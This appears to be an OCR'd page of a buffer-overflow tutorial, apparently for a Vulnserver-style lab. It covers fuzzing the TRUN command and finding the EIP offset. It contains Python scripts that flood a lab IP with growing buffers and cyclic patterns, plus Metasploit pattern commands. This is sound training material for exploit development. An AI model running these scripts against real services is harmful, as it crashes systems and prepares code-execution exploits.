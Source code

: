 ## Step 2: Fuzzing

After identifying vulnerable commands through spiking, we fuzz them to find crash points.

### Fuzzing Script
```python
#!/usr/bin/python
import sys, socket
from time import sleep

buffer = "A" * 100

while True:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.0.105',9999))
        
        s.send(('TRUN /.:/' + buffer))
        s.close()
        sleep(1)
        buffer = buffer + "A" * 100
        
    except:
        print("Fuzzing crashed at %s bytes" % str(len(buffer)))
        sys.exit()
```

## Step 3: Finding the Offset

### Pattern Creation
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <crash_length>
```

### Offset Script
```python
#!/usr/bin/python
import sys, socket

offset = "<pattern>"
try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('192.168.0.105',9999))
    s.send(('TRUN /.:/' + offset))
    s.close()
except:
    print("Error connecting to server")
    sys.exit()
```

### Finding Exact Offset
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <length> -q <EIP_value>
```
